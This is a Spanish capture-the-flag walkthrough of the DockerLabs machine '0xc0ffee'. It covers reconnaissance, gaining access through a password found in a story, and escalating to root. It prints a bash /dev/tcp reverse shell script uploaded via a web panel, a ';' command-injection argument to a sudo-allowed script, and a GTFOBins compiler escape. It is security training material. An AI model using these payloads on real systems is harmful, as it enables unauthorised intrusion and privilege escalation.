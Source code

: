 Máquina "0xc0ffee" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Medio

![0xc0ffee](./img/0xc0ffee.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 18:55:41 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-09-04 18:55:42 -03 for 18s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Security Verification Tool
7777/tcp open  http    syn-ack ttl 64 SimpleHTTPServer 0.6 (Python 3.12.3)
|_http-title: Directory listing for /
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: SimpleHTTP/0.6 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 18:56:00 2024 -- 1 IP address (1 host up) scanned in 18.57 seconds
```

Como vemos está el puerto `80` abierto y el `7777` también corriendo un servidor en python.

###### Puerto 80:

![80](./img/80.png)

Como vemos es una página que nos pide una contraseña, pero como no la tenemos la dejaremos de lado.

###### Puerto 7777:

![7777](./img/7777.png)

Como vemos es lo mismo que ejecutar `python3 -m http.server <puerto>` (literalmente igual), por lo que no podemos subir nada y la mayoria de las cosas nos las descarga, excepto los ".txt". Si vamos a `/secret/` veremos un archivo ".txt" que tiene una historia:

```css
En los albores del siglo XXI, España se encontraba en medio de una revolución tecnológica, donde las sombras de los servidores y el resplandor de las pantallas digitales eran el campo de batalla para los más astutos y habilidosos. Entre ellos, había un nombre que resonaba con reverencia y misterio: Álvaro López. Conocido en la comunidad cibernética como “El Fantasma de Madrid”, Álvaro era considerado el mejor hacker de España, y su habilidad para penetrar los sistemas más seguros era casi legendaria.

Álvaro comenzó su andanza en el mundo de la ciberseguridad desde una edad temprana. Lo que comenzó como un simple interés en la informática se transformó en una pasión por desentrañar los secretos más ocultos de las redes y sistemas de seguridad. Su habilidad para encontrar vulnerabilidades en sistemas aparentemente impenetrables le ganó una reputación que se extendía más allá de las fronteras de España.

Uno de los incidentes más notorios en la carrera de Álvaro ocurrió cuando se enfrentó a uno de los desafíos más complejos de su vida. Un banco internacional de renombre, conocido por su nivel extremo de seguridad, había sido blanco de un ataque, y el misterio giraba en torno a un archivo encriptado con la etiqueta "super_secure_password". Este archivo contenía información crítica sobre las transacciones de alto valor, y su protección era de máxima prioridad.

El banco había desplegado una red de seguridad impenetrable, con capas de cifrado y autenticación de múltiples factores, lo que hizo que el reto fuera aún más emocionante para Álvaro. Tras semanas de investigación y análisis de los sistemas, el Fantasma de Madrid descubrió una pequeña pero crítica vulnerabilidad en el protocolo de encriptación utilizado. Con una mezcla de astucia y técnica avanzada, pudo realizar un ataque sofisticado que permitió descifrar el contenido protegido bajo el "super_secure_password".

Sin embargo, el talento de Álvaro no radicaba solo en su capacidad para hackear sistemas; también era un maestro en la ética de la ciberseguridad. En lugar de utilizar la información para sus propios fines, utilizó su acceso para alertar al banco sobre las fallas en su sistema y proporcionar recomendaciones para mejorar la seguridad. Su acto no solo demostró su habilidad técnica, sino también su integridad y compromiso con la seguridad digital.

La hazaña de Álvaro López pronto se convirtió en una leyenda en el mundo de la ciberseguridad. El banco, agradecido por su valiosa contribución, lo recompensó generosamente y lo invitó a colaborar en la mejora de sus sistemas de seguridad. La historia de El Fantasma de Madrid se convirtió en un ejemplo de cómo la habilidad y la ética pueden coexistir en el mundo del hacking.

Con el tiempo, Álvaro siguió influyendo en el campo de la ciberseguridad, ofreciendo conferencias y talleres sobre la importancia de la protección de datos y la ética en el hacking. Su legado perduró, y su nombre se convirtió en sinónimo de excelencia en el arte de la ciberseguridad, recordado como el mejor hacker que España había conocido.
```

Ahora si nos fijamos, veremos que la historia nombra una password, la cual es "super_secure_password". Ahora si a esta misma la metemos en el puerto 80 que nos pedía una contraseña, podremos entrar. Una vez dentro veremos esta otra página:

![panel](./img/panel.png)

Al parecer nos deja crear "configuraciones" y aplicarlas, en la cual si probamos crear por ejemplo una que se llame "test.txt" y la subimos, veremos que se ha creado localmente en el puerto 7777:

![test](./img/testxt.png)

# INTRUSION

Sabiendo esto podemos probar en enviarnos una reverse shell y ver si nos llega.

En la página haremos un script que tenga extensión ".sh" y que contenga lo siguiente:

```css
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<puerto> 0>&1
```

Luego le damos en guardar, volvemos a nuestra máquina y escuchamos con netcat en el puerto elegido:

```css
sudo nc -nlvp <puerto>
```

ahora bajamos en la página hasta donde dice "Execute Remote Configuration" y ejecutamos el script con el nombre que elegimos:

![rev](./img/rev.png) 

# ESCALADA DE PRIVILEGIOS

### www-data

Antes de continuar haremos el tratamiento de la tty, para hacerlo ejecutaremos estos comandos:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y luego escribimos "reset xterm" y luego enter
export TERM=xterm && export SHELL=bash
```

Ahora si nos vamos a `/home/codebad/secret`, podremos ver una adivinanza que dice lo siguiente:

```abap
Adivinanza

En el mundo digital, donde la protección es vital,
existe algo peligroso que debes evitar.
No es un virus común ni un simple error,
sino algo más sutil que trabaja con ardor.

Es el arte de lo malo, en el software es su reino,
se oculta y se disfraza, su propósito es el mismo.
No es virus, ni gusano, pero se comporta igual,
toma su nombre de algo que no es nada normal.

¿Qué soy?
```

RESPUESTA: malware.

Luego ejecutamos un `su codebad` y poner "malware" de contraseña.

## Codebad

Si ejecutamos un `sudo -l` vermos lo siguiente:

```css
Matching Defaults entries for codebad on ce1f3f7f4392:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User codebad may run the following commands on ce1f3f7f4392:
    (metadata : metadata) NOPASSWD: /home/codebad/code
```

Si intentamos leer el script, estará en un formato ilegible, pero podemos probar en ejecutarlo y ver que pasa:

![code](./img/code.png)

como vemos nos pide una opción, la cual si se la pasamos nos dice esto:

![ls](./img/ls.png)

Como vemos el script ya ejecuta un "ls", por lo que podemos intentar ejecutar el binario "bash" como el usuario metadata, para hacerlo podemos hacer uso de ";" que en linux nos permite "ejecutar dos comandos a la vez", por ej:

![;](./img/;.png)

como vemos al hacer uso de ";" y poner `whoami; ls`, nos ejecuta los dos a la misma vez. Ahora podemos usar esto en nuestro beneficio para escalar, para hacerlo podemos ejecutar el script de la siguiente manera:

```css
sudo -u metadata /home/codebad/code "/home/; bash"
```

Esto hará que se ejecute el binario bash y podremos escalar privilegios al usuario "metadata".

### Metadata

Ahora si ejecutamos `sudo -l` nos pedirá contraseña, pero podemos buscar si hay algún archivo o algo que nos sirva con el nombre de "metadata" y en el mejor de los casos tenga la contraseña. Para hacerlo usaremos `find` de la siguiente manera:

```css
find / -name "meta*" 2>/dev/null
```

Luego de ejecutarlo vermos que hay un script llamado "metadatosmalos":

```css
/usr/local/bin/metadatosmalos
```

si lo leemos no tiene nada interesante pero si usamos el nombre del script como contraseña al poner `sudo -l`, veremos que es correcta y podemos ejecutar el binario `c89`, que al buscar en [GTFOBins](https://gtfobins.github.io/) veremos que podemos escalar ejecutando esto:

![c89](./img/c89.png)

Por lo que simplemente lo ejecutamos y ya seremos root:

![root](./img/root.png)

Gracias por leer.